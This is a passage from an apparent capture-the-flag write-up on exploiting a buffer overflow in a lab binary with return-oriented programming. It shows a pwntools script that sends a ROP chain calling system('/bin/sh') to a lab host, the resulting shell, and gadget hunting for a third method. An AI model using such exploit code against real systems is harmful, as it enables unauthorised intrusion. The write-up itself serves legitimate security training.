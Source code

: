     payload = junk + pop_rdi + binsh + plt_gets + pop_rdi + binsh + plt_system
    
    p = remote("10.10.10.147", 1337)
    p.recvline()
    p.sendline(payload)
    p.sendline('/bin/sh\x00')
    p.interactive()
    

And it gets a shell:

    
    
    root@kali# ./pwn_safe-m2.py 
    [+] Opening connection to 10.10.10.147 on port 1337: Done
    [*] Switching to interactive mode
    $ id
    uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
    

#### Method 3: test

The third method relies on the `test()` function that is never called but is
still in the code:

    
    
    gdb-peda$ disassemble test 
    Dump of assembler code for function test:
       0x0000000000401152 <+0>:     push   rbp
       0x0000000000401153 <+1>:     mov    rbp,rsp
       0x0000000000401156 <+4>:     mov    rdi,rsp
       0x0000000000401159 <+7>:     jmp    r13
       0x000000000040115c <+10>:    nop
       0x000000000040115d <+11>:    pop    rbp
       0x000000000040115e <+12>:    ret    
    End of assembler dump.
    

If I can get the address of `system` into R13 and `/bin/sh` onto the top of
the stack, then calling `test()` will give a shell. I’ll use `ropper` to find
a gadget to POP R13:

    
    
    root@kali# ropper -f myapp | grep r13
    [INFO] Load gadgets from cache
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    0x0000000000401204: pop r12; pop r13; pop r14; pop r15; ret; 
    0x0000000000401206: pop r13; pop r14; pop r15; ret; 
    0x0000000000401203: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
    0x0000000000401205: pop rsp; pop r13; pop r14; pop r15; ret; 
    

The second one works, and I’ll just pop nulls in to R14 and R15. The rest of
the addresses I can get from the previous examples, to create this exploit:

    